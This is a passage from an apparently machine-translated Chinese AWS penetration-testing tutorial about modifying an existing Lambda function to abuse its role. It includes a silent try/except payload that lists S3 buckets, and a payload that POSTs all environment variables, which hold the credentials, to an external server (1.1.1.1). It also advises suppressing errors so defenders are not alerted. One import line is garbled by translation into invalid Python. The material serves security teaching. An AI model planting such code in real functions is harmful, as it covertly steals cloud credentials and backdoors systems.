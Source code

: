 对于我们的第二个场景，我们假设我们没有 IAM 的`PassRole`权限，这意味着我们无法创建一个新的 Lambda 函数，因为函数需要传递一个角色。为了利用这种情况，我们需要与现有的 Lambda 函数一起工作。对于这个演示，我们将针对我们在本章前面创建的`VulnerableFunction`进行目标定位。

在这种情况下，我们需要更加小心，因为我们不是在创建新的 Lambda 函数，而是在修改现有函数。 我们不想干扰环境中正在进行的任何操作，因为首先，作为渗透测试人员，我们尽量要避免这种情况，其次，我们不希望作为攻击者引起比必要更多的注意。 Lambda 函数突然停止工作会引起注意的人们的极大警惕。 我们可以确保这不会发生，方法是确保我们向函数添加的任何代码不会干扰其余的执行，这意味着我们需要捕获并消除我们附加的任何代码引发的任何错误。 另外，由于我们可能不知道函数是否会在其正常执行中早期出错，我们应该尽量将我们的代码放在执行的开始附近，以确保它得到执行。

回到我们之前创建的`VulnerableFunction`，我们知道附加到它的角色具有 S3 权限，因为函数代码与 S3 交互（而且我们自己设置了角色）。 为了从简单的地方开始，我们只是要列出账户中的 S3 存储桶，以查看我们可以使用哪些。 我们可以通过在`VulnerableFunction`中添加以下代码来完成此操作，在第 6 行之后（在调用`lambda_handler()`后，但在运行任何其他代码之前）：

```

try:
    s3 = boto3.client('s3')
    print(s3.list_buckets())
except:
    pass

```

我们甚至可以像以前一样进一步，导入 JSON 库并格式化输出，但最好尽量对现有函数进行尽可能少的更改。 我们使用`try`/`except`块来确保出现的任何错误不会中止函数的执行，并将`pass`放在 except 块中，我们可以确保错误会被静默地丢弃，然后函数将像往常一样执行。 `VulnerableFunction`的开头现在应该是这样的：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/e1d7eeef-e7aa-4212-9503-42aefa375920.png)

我们向`VulnerableFunction`添加了代码后的 VulnerableFunction 开头

这个载荷的唯一问题在于它假定我们可以查看此 Lambda 函数的执行日志，我们可能有或没有权限访问。 我们需要访问 CloudWatch 日志或能够使用测试事件运行函数，以便我们可以在 Web 控制台中查看输出。 现在我们会说我们没有 CloudWatch 访问权限，所以我们将使用测试事件。 下一个问题是，我们可能缺少围绕此 Lambda 函数的整个上下文。 我们不一定知道函数何时被调用是有意义的，函数何时会出错，它被调用的频率如何，如果在其正常触发器之外调用将会产生什么影响，以及许多其他问题。

要解决这个问题，我们可以选择忽略它，并针对函数运行测试事件，而不担心后果（这不是一个好主意，除非你非常确定它不会破坏环境中的任何东西，并且不会吸引防御者的不必要注意），或者我们可以修改我们的有效载荷来外泄凭证，有点像本章的第一节。这可能是最安全的方法，因为我们可以向函数添加我们的恶意有效载荷，在我们的外部服务器上设置监听器，然后只需等待 Lambda 函数被正常调用。为此，我们可以导入`subprocess`并像以前一样使用`curl`，但更简单的方法是使用 Python 的`requests`库。`Requests`不会自动包含在 Lambda 函数可用的默认库中，但是`botocore`会，而`botocore`依赖于`requests`库，因此我们可以使用一个很酷的技巧来导入和使用`requests`。我们使用以下`import`语句而不是`import requests`：

```

从 botocore.vendored 导入请求

```

现在，我们可以正常访问`requests`库了。因此，按照本章早期所做的类似方法，我们只需将所有环境变量发送到我们的外部服务器即可发送 HTTP `POST`请求。我们还可以在 Lambda 函数内部运行 AWS API 调用并外泄输出，这在技术上会更安全，因为 API 调用将来自预期的相同 IP 地址，而不是我们的外部攻击 IP；但是，拉取环境变量更加灵活，并且随着时间的推移需要对函数进行的修改较少，因此我们选择了这种方式。以下有效载荷将执行此操作（在这里我们假装`1.1.1.1`是我们外部服务器的 IP）：

```

try:
    import os
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=os.environ.copy(), timeout=0.01)
except:
    pass
```
